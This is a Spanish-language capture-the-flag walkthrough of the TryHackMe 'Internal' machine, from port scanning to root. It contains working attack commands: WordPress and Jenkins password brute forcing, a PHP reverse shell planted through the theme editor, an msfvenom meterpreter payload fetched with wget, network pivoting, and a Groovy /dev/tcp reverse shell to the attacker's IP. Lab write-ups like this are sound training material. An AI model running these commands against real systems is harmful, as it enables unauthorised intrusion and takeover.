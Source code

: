 # Internal

**Platform:** TryHackMe  
**Difficulty:** Hard  
**IP:** 10.10.158.248

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como de root.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `wpscan`, `hydra`, `reverse shell`, `netcat`, `msfvenom`, `metasploit`, `ssh`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los servicios abiertos:
```bash 
nmap -sC -sV --min-rate 5000 -p- 10.10.158.248
```
![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Tan solo nos muestra el puerto 22 y 80, y ya que no tenemos ninguna credencial para SSH vamos a entrar al sitio web.

![Inspección del sitio web](screenshots/3.sitio_web.png)

Tras inspeccionar el sitio web y no encontrar ningún vector de ataque, vamos a realizar una búsqueda de directorios públicos a partir del sitio web con la herramienta `gobuster`.

![Utilización de gobuster para búsqueda de directorios y rutas públicas](screenshots/2.gobuster.png)

```bash 
gobuster dir -u 10.10.158.248 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Entre los directorios que hemos encontrado no hay nada particular, un PHPMyAdmin para el que no tenemos credenciales y poco más.
Sin embargo, la tenemos una ruta que indica que hay un Wordpress detrás del sitio y podemos tratar de analizarlo con la herramienta `WPScan`.

Utilizaremos el parámetro -e para búsqueda de usuarios, plugins vulnerables, temas vulnerables, backups, ficheros de configuración, etc.

```bash 
wpscan --url http://10.10.158.248/blog/ -e
```

![Ejecución de wpscan para análisis del sitio web](screenshots/4.wpsan_user.png)

Hemos descubierto el usuario `admin`, desde el que podemos partir para hacer un ataque de fuerza bruta al panel de inicio de sesión de Wordpress.
Este ataque puede realizarse con Hydra o con WPScan, pero usaremos la segunda ya que la sintaxis es mucho más simple.

```bash 
wpscan --url http://10.10.158.248/blog/ -U admin -P /usr/share/wordlists/rockyou.txt
```
![Ejecución de wpscan para realizar fuerza bruta a la contraseña del usuario admin](screenshots/5.wpscan_password.png)

Cuando finaliza el programa, observamos que hay una exclamación roja donde nos indica la contraseña del usuario admin. Utilizaremos estas credenciales para acceder al panel de administración de WordPress.

![Panel de control de administración de WordPress](screenshots/7.wp-admin-pannel.png)

Como estamos acostumbrados en este tipo de máqunias, WordPress suele tener ficheros PHP para modificar en Appearance  > Themes Editor.
En cualquiera de los ficheros PHP al que podamos acceder desde la URL vamos a eliminar el contenido y a modificar el código de la clásica php-reverse-shell.php de pentestmonkey con nuestra dirección IP.


![Reverse shell de pentestmonkey](screenshots/8.rv_shell-pentestmonkey.png)

![Modificación del código php en el fichero de WordPress](screenshots/9.php_modification.png)

De esta manera obtendremos una conexión en netcat donde estableceremos una shell. Para ello también tenemos que poner a la escucha netcat en nuestra máquina local.

```bash 
nc -lvnp 1234
```

Para establecer la conexión solo nos queda acceder al fichero a través de la URL para que se ejecute.

![Reverse shell creada en netcat de la máquina local](screenshots/10.netcat_with_shell.png)

Tras investigar el sistema de la máquina víctima y no encontrar nada a simple vista, vamos a utilizar la herramienta `linpeas`, para buscar algún fichero que nos aporte alguna credencial, ya que no podemos acceder a ningún directorio personal.

En la máqunia local abrimos el servidor para compartir el fichero:
```bash 
python -m http.server 
```

En la máquina víctima lo descargamos, le asignamos permisos de ejecución y lo ejecutamos:
```bash 
wget http://10.8.29.132:8000/linpeas.sh
chmod a+x linpeas.sh
./linpeas.sh
```

![Apertura de servvidor python para compartir el fichero linpeas.sh](screenshots/11.python_server.png)

![Descarga del fichero linpeas en la máquina víctima](screenshots/12.wget.png)

![Ejecución de linpeas en la máquina víctima](screenshots/13.linpeas.png)

Tras un buen rato observando el resultado de la herramienta linpeas.sh, encontramos algunas vulnerabilidades que podrían ser explotadas pero no aparentan seguir el flujo de la máquina, así que seguimos revisando hasta encontrar un fichero de guardado de WordPress en el directorio /opt.

![Ejecución de linpeas en la máquina víctima](screenshots/14.linpeas_result.png)

Al no tener mucho sentido ese fichero en esa localización, lo abrimos y descubrimos que contiene las credenciales de otro usuario.

![Localización de credenciales para usuario aubreanna en fichero encontrado](screenshots/15.wp-save-file.png)

Accedemos al usuario aubreanna y nos dirigimos a su directorio personal, donde hayamos la primera bandera (user.txt).
Además de la bandera, hay otro fichero llamado jenkins.txt que nos dice que en el puerto 8000 de la 172.17.0.2 está corriendo un servicio Jenkins.

![Fichero con la primera bandera y otro fichero con una pista sobre otra dirección](screenshots/16.user_y_jenkins.png)

Si hacemos un `ifconfig` apreciamos una segunda interfaz de red de docker, que pertenece a otra red en la que parece ocultarse ese servicio.

![Ifconfig desde máquina víctima](screenshots/17.ifconfig.png)

Hay muchas maneras de poder acceder a esa red, y aunque no sea la más rápida (ya que podemos establecer un túnel por SSH) vamos a usar el método que aprendemos en la eJPTv2.

Utilizaremos una shell de meterpreter para realizar el pivoting. Para ello crearemos un fichero malicioso con MSFVenom que realice una conexión a meterpreter (que estará a la escucha en nuestra máquina local). 

```bash 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.8.29.132 LPORT=4444 -f elf -e x64/xor -i 5 -o shell64.elf
```

![Preparación de fichero malicioso con msfvenom](screenshots/18.preparing_msfvenom.png)

Lo siguiente es usar exploit/multi/handler de metasploit y asignarle el LHOST y el LPORT:

```bash 
use exploit/multi/handler
set LPORT 4444
set LHOST 10.8.29.132
run
```

![Poniendo a la escucha el multi/handler de Metasploit para establecer la conexión](screenshots/19.metasploit.png)

Por último descargamos con wget el fichero en la máquina víctima, establecemos permisos de conexión y lo ejecutamos.
```bash 
wget http://10.8.29.132:8000/shell64.elf
chmod a+x shell64.elf
./shell64.elf
```

![Ejecución de exploit desde víctima](screenshots/20.exploit_execution.png)

Desde Metasploit ya hemos recibido la conexión entrate y establecido una shell de meterpreter, desde la que ya podemos realizar un ifconfig y vamos a proceder a realizar el pivoting.

![Conexión recibida por Metasploit y establecimiento de shell de meterpreter](screenshots/21.ifconfig_meterpreter.png)

Para realizar el `pivoting` primero le indicaremos a meterpreter la dirección de red para que la ingrese en la tabla de rutas, luego haremos uso de esa tabla y realizaremos el Port Forwarding donde el puerto 1234 de nuestra máqunia local creará una conexión túnel con el puerto 8080 de la máqunia con la IP 172.17.0.2.

```bash 
run autoroute -s 172.17.0.0/16
run autoroute -p
portfwd add -l 1234 -p 8080 -r 172.17.0.2
```

![Pivoting desde meterpreter para puerto 8080 de la IP 172.17.0.2](screenshots/22.pivoting.png)

![Ejecución de exploit desde víctima](screenshots/23.pivoting2.png)

Finalmente, si accedemos a través de la URL de nuestro navegador a localhost:1234 recibiremos la respuesta del servicio Jenkins.


![Inicio de sesión de Jenkins](screenshots/24.jenkins.png)

> **Nota:** A partir de este punto tuve que cambiar de máquina, pero continué el proceso por donde lo dejé.

Investigando por internet sobre las credenciales por defecto obtuvimos que el usuario por defecto y que en la mayoría de máquinas suele dejarse así es `admin`.
Esta vez vamos a tener que utilizar Hydra para, con un ataque de fuerza bruta, obtener la contraseña del usuario.

```bash 
hydra localhost -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -s 1234 -l admin -P /usr/share/wordlists/rockyou.txt
```

![Fuerza bruta al usuario de jenkins para la obtención de su contraseña](screenshots/25.hydra.png)

Al ingresar las credenciales entramos dentro del panel de administración de Jenkins.

![Panel principal de administración de Jenkins](screenshots/26.jenkins_panel.png)

Tras observar cada opción del servicio, tenemos una herramienta llamada Script Console. 

![Búsqueda de opciones para poder vulnerar el servicio](screenshots/27.script_console.png)

Se trata de una herramienta capaz de ejecutar código Java, así que si ingresamos un código que se conecte a netcat para generar una shell, tendremos acceso a esta segunda máquina.

```bash 
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5\<>/dev/tcp/10.8.29.132/4444; cat \<&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![Script Console de Jenkins donde ingresamos código para obtener una reverse shell](screenshots/28.shell_in_terminal.png)

Al acceder a la segunda máquina por netcat, no ha sido necesario volver a utilizar la herramienta linpeas.sh debido a que en el mismo directorio donde teníamos la primera pista, encontramos un fichero de texto con la contraseña del usuario root.

![Obtención de contraseña de root en fichero dentro de /opt](screenshots/29.root_credential.png)

Accedemos al usuario root y leemos el fichero que contiene la segunda bandera.

```bash 
ssh root@internal.thm
```

![Obtención de segunda bandera en el directorio /root](screenshots/30.root-txt.png)



